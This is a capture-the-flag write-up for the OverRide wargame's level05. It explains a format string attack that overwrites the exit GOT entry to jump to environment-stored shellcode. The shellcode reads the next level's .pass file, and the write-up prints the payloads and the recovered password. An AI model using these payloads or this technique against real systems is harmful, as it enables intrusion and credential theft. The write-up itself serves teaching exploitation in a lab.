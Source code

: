 In this level, we will use a format string attack to execute our shellcode, which we will add to our environment instead of the exit function.

```c
printf(&var_78);
exit(0);
```

To do this, we will first retrieve the address of the exit function in da GOT.
```
level05@OverRide:~$ objdump -R ./level05

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit  <-------------
080497e4 R_386_JUMP_SLOT   __libc_start_main
```


Add our shellcode here; I'm using the shellcode from the previous level.
```
export EXPLOIT=$(python -c 'print("\x90" * 200 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass")')
```
Find the address of the environment variable.

```
0xffffd85d
```

Normally, we could have done print(exit_addr + %adr_shellcode_in_decimald%10$n), but adr_shellcode_in_decimal is 4294957148, which is rather long. So, we will do it differently; we will write 2 bytes at a time.
```
level05@OverRide:~$ ./level05
aaaabbbb%10$x%11$x
aaaabbbb6161616162626262
```
We will replace the 'a' above with 080497e0 and the 'b' with 080497e2.
Since we are in little-endian, we will first write the 2 low bytes and then the high ones

```
0xffffd85d

ffff = 65535 high
D85D = 55389 low
```

So for the low bytes, we will write 55388 - 8 into \xe0\x97\x04\x08. We subtract 8 because we will write the target addresses.
And for the high bytes we make a simple substraction 65535 - 55389 = 10146 Because, by the time we write the higher bytes, we would have already written the lower ones, and since %n counts the number of bytes already written, we will perform a subtraction to eliminate the bytes already written.

This gives us the final result:
```
level05@OverRide:~$ python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55381d%10$hn" + "%10146d%11$hn")' | ./level05
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
